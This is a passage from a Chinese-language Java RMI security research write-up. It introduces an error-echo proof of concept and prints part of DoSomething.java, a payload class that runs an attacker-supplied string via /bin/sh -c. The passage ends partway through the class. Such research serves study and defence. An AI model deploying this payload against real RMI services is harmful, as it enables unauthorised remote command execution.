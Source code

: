 这一小节没啥意思，就是记录一下中间碰到的各种坑，这是其中一个坑。从坑中爬出
来后才自己写的RMIRegistryServer.java。人生就是一个接一个的坑，区别只有坑深
坑浅，而非有坑无坑。

14) 基于报错回显的PoC

之前所有的PoC都是盲执行，拿不到命令执行结果，没有回显。参[59]，文中提供了
一个基于报错回显的例子。参看:

《Java RMI入门(5)》
http://scz.617.cn/network/202003241127.txt

8.6小节介绍利用java.net.URLClassLoader干复杂的事。

14.1) DoSomething.java

```java
/*
 * javac -encoding GBK -g DoSomething.java
 */
import java.io.*;

public class DoSomething
{
    public DoSomething ( Object[] argv ) throws Exception
    {
        Operator( argv );
    }

    /*
     * 我们是正经程序员，不是小黑黑，就算是写个PoC，也不能丢老司机的脸
     */
    public static void Operator ( Object[] argv ) throws Exception
    {
        int     opnum   = Integer.parseInt( ( String )argv[0] );
        String  cmd;

        /*
         * Java没有函数指针的概念，本想弄个函数指针数组来着。参看:
         *
         * Array of function pointers in Java - [2010-05-02]
         * https://stackoverflow.com/questions/2752192/array-of-function-pointers-in-java
         *
         * 还是switch吧，这样写只是为了将来的功能扩展及测试需要。
         */
        switch ( opnum )
        {
        case 0 :
            cmd = ( String )argv[1];
            Operator_0( cmd );
            break;
        case 1 :
            cmd = ( String )argv[1];
            Operator_1( cmd );
            break;
        default:
            Operator_unknown();
            break;
        }
    }

    private static void Operator_0 ( String cmd ) throws Exception
    {
        Runtime.getRuntime().exec( new String[] { "/bin/sh", "-c", cmd } );
    }

```